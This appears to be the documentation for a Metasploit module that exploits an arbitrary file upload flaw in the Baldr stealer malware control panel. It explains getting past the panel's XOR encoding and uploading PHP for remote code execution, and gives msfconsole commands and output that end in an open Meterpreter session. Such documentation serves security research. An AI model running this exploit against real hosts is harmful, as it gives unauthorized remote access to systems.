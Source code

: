 ## Vulnerable Application

### Description

This module exploits an arbitrary file upload vulnerability within the Baldr
stealer malware control panel when uploading victim log files (which are uploaded
as ZIP files). Attackers can turn this vulnerability into an RCE by first
registering a new bot to the panel and then uploading a ZIP file containing
malicious PHP, which will then uploaded to a publicly accessible
directory underneath the /logs web directory.

Note that on versions 3.0 and 3.1 the ZIP files containing the victim log files
are encoded by XORing them with a random 4 byte key. This exploit module gets around
this restriction by retrieving the IP specific XOR key from panel gate before
uploading the malicious ZIP file.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/baldr_upload_exec`
  4. Do `set rhost 192.168.1.27`
  5. Do: `run`
  6. Verify that you get a shell on the target system


## Options

### TARGETURI
The URI where the Baldr panel/gateway is located on the target web server.

## Scenarios
```
msf > use exploit/multi/http/baldr_upload_exec 
msf exploit(exploit/multi/http/baldr_upload_exec) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf exploit(multi/http/baldr_upload_exec) > run

[*] Baldr Version: <= v2.0
[+] Payload uploaded to /logs/FJETBHLL/.vatw.php
[+] Payload successfully triggered !
[*] Started bind TCP handler against 192.168.1.27:9090
[*] Sending stage (38288 bytes) to 192.168.1.27
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.1.27:9090) at 2020-07-23 09:49:34 +0300

meterpreter > 
```
